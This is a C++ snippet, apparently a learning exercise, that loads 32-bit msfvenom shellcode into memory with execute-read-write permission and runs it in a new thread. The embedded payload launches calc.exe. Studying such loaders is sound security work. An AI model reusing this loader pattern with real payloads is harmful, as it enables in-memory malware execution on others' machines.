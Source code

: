 ```cpp
// 32 bit calc shellcode 193 bytes be sure to change it in virtualalloc and memcpy function
unsigned char buf2[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26"
"\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
"\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
"\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3"
"\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a"
"\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d"
"\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


int main() {
    //creating pshellcode virtualmemory 

    // we should use size from msfvenom output

    LPVOID pshellcode = VirtualAlloc(NULL, 193, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //HANDLE CreateThread(
    //    [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
    //    [in]            SIZE_T                  dwStackSize,
    //    [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
    //    [in, optional]  __drv_aliasesMem LPVOID lpParameter,
    //    [in]            DWORD                   dwCreationFlags,
    //    [out, optional] LPDWORD                 lpThreadId
    //);

    //LPVOID pshellcode = VirtualAlloc(NULL, 276, MEM_COMMIT | MEM_RESERVE, PAGE_READONLY);
    // Copying buf to pshellcode section
    
    memcpy(pshellcode, buf2, 193);
    
    // Now Creating Thread 
    //getchar();
    CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pshellcode, NULL, NULL, NULL);
    //CreateProcess() homework

    
    // In order to thread stay allive we should use getchar function. 
    getchar();

    printf("Hello, World!\n");
    return 0;
}
```
